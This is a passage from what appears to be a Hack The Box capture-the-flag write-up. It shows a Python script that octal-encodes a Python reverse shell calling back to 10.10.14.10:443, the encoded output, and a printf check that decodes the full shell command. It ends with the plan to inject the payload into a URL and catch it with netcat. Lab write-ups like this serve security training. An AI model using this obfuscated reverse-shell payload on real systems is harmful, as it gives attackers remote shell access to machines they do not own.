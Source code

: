 To faciliate generating the octal payload I wrote a quick python script to make the output compatible for `printf`.

```python
#!/usr/bin/env python3

command = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.10',443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);'"

payload = ""

for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

print(payload)
```

A python reverse shell is used as our command, the script adds a backslash in front of each octal encoded character and also strips any leading zeros so that the formatting is all correct.

```
root@kali:~/htb/sense# ./octal.py
\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\60\42\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47
```

To verify our payload we can test with `printf`.

```
root@kali:~/htb/sense# printf '\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\60\42\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``` 
As we can see it decodes correctly. Now all we need to do is inject into the URL and pipe the output to `sh` to achieve a shell.

Start a netcat listener and browse to our crafted URL:
